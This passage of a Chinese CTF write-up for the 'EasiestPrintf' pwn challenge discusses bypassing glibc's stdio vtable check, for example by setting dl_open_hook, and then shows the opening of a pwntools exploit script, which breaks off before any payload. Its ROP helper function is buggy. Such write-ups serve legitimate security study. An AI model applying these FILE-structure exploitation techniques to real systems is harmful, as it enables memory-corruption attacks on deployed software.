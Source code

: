 ```C
71	  __libc_fatal ("Fatal error: glibc detected an invalid stdio handle\n");
72	}
```
其中`stop___libc_IO_vtables` 和` __start___libc_IO_vtables`这两个值具体是什么不太清除，我是让 vtable 指向`_IO_2_1_stdout_`邻近的区域，在 libc 的可读写段，虽然原来的 vtable ptr 是指向 libc 的只读段，但是并没有出现问题。看了一下自己电脑使用的libc 2.23版本，并没有在文件里面找到有定义这个函数。himyth 的做法是把 dl_open_hook置为非0，就能绕过这个 check 了。



最后是 exp

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
""" dddong / AAA """

from pwn import *
import sys, os, re
context(arch='i386', os='linux', log_level='info')
context(terminal=['gnome-terminal', '-x', 'bash', '-c'])

def __get_base(p, _path):
    _vmmap = open('/proc/%d/maps' % p.proc.pid).read()
    _regex = '^.* r-xp .* {}$'.format(_path)
    _line = [_ for _ in _vmmap.split('\n') if re.match(_regex, _)][0]
    return int(_line.split('-')[0], 16)

def gen_rop(func_addr, args):
    """
    automate generate rop function
    _gadgets array contains gadgets address for 0,1,2,... args
    """
    _gadgets = []
    rop = ""
    rop += p32(func_addr)
    if len(args) > 1:
        rop += _gadgets[len(args)]
        for arg in args:
            rop += p32(args)
    return rop


_program = 'EasiestPrintf'
_pwn_remote = 0
_debug = int(sys.argv[1]) if len(sys.argv) > 1 else 0

elf = ELF('./' + _program)

if _pwn_remote == 0:
    os.environ['LD_PRELOAD'] = ''
    libc = ELF('./libc.so.6')
    p = process('./' + _program)

    if _debug != 0:
        if elf.pie:
            _bps = [] #breakpoints defined by yourself, not absolute addr, but offset addr of the program's base addr
            _offset = __get_base(p, os.path.abspath(p.executable))
            _source = '\n'.join(['b*%d' % (_offset + _) for _ in _bps])
        else:
            _source = 'source peda-session-%s.txt' % _program
        gdb.attach(p.proc.pid, execute=_source)
else:
    libc = ELF('./libc6-i386_2.19-0ubuntu6.9_amd64.so') #todo
    p = remote('8.8.8.8', 4002)	#todo
```